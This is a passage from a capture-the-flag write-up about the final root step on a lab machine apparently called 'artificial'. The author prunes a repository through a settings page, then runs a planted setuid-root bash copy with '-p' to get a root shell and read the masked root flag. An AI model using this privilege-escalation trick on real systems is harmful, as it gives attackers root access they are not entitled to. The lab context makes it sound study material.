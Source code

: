 and saved the repository

![priv_esc_repo.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/artificial/priv_esc_repo.png)

then I went to its settings and clicked `prune now`
![prune_now.png](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/refs/heads/master/assets/htb/artificial/prune_now.png)

then got my root shell, and grabbed the root flag
```bash
gael@artificial:/tmp/lab$ ls -l /tmp/jeff
-rwsr-sr-x 1 root root 1183448 Oct 24 18:52 /tmp/jeff
gael@artificial:/tmp/lab$ /tmp/jeff -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
jeff-5.0# whoami
root
jeff-5.0# cat /root/root.txt
73****************************41
jeff-5.0#
```
